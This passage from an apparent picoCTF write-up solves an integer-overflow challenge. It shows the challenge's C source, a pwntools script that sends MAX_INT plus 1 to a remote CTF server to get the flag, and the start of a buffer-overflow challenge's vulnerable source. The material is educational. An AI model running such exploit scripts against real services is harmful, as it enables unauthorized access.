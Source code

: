 ```c
            printf("No overflow\n");
            fflush(stdout);
            exit(0);
        } else if (addIntOvf(sum, num1, num2) == -1) {
            printf("You have an integer overflow\n");
            fflush(stdout);
        }

        if (num1 > 0 || num2 > 0) {
            flag = fopen("flag.txt","r");
            if(flag == NULL){
                printf("flag not found: please run this on the server\n");
                fflush(stdout);
                exit(0);
            }
            char buf[60];
            fgets(buf, 59, flag);
            printf("YOUR FLAG IS: %s\n", buf);
            fflush(stdout);
            exit(0);
        }
    }
    return 0;
}
```

To print the flag we need to add two positive integers and have a negative result. We will add the `MAX_INT` value in `C` and `1` to achieve an integer overflow and get the flag.

```python
from pwn import *

context.log_level = 'critical'

r = remote('saturn.picoctf.net', 54011)

r.sendline(b'2147483647')
r.sendline(b'1')
print(f'\n{r.recvline_contains(b"pico").strip().decode()}\n')
```

```bash
➜  Binary-Exploitation git:(main) ✗ python solver.py

YOUR FLAG IS: picoCTF{XXX}
```

### buffer overflow 1

Download the files and `cat vuln.c` 

```c
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
```